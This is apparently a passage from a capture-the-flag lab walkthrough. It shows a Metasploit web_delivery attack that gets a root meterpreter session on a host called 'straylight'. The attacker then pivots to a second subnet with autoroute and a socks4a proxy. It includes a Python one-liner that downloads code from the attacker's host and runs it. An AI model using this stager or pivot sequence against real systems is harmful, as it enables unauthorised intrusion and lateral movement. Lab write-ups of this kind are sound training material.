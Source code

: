 First, we have to open a meterpreter session with the web_delivery module:  
  
msf exploit(multi/script/web_delivery) > run  
>...  
>python -c "import sys;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://192.168.148.3:8080/OGsIAmtnMxP2Gv0');exec(r.read());"  
msf5 exploit(multi/script/web_delivery) >   
>[*] Sending stage (53770 bytes) to 192.168.148.5  
>[*] Meterpreter session 1 opened (192.168.148.3:4446 -> 192.168.148.5:50706) at 2019-04-13 13:24:06 -0500  
  
msf5 exploit(multi/script/web_delivery) > sessions -l  
>  
>Active sessions  
>===============  
>  
>  Id  Name  Type                      Information        Connection  
>  --  ----  ----                      -----------        ----------  
>  1         meterpreter python/linux  root @ straylight  192.168.148.3:4446 -> 192.168.148.5:50706 (192.168.148.5)  
  
msf5 exploit(multi/script/web_delivery) > sessions -i 1  
meterpreter > sysinfo  
>Computer        : straylight  
>OS              : Linux 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1+deb9u1 (2018-05-07)  
>Architecture    : x64  
>System Language : en_US  
>Meterpreter     : python/linux  
>meterpreter > getuid  
>Server username: root  
  
Now we set up the route to the second machine:  
  
meterpreter > run autoroute -s 192.168.111.0/24  
meterpreter > run autoroute -p  
>  
>Active Routing Table  
>====================  
>  
>   Subnet             Netmask            Gateway  
>   ------             -------            -------  
>   192.168.111.0      255.255.255.0      Session 1  
  
Perfect. We only need to set up our proxy socks with the socks4a module:  
  
msf5 auxiliary(server/socks4a) > run  
>[*] Auxiliary module running as background job 1.  
>[*] Starting the socks4a proxy server  
  
  
Now we can reach the second machine from our host.  
  
#NEUROMANCER  
  
###NMAP  
  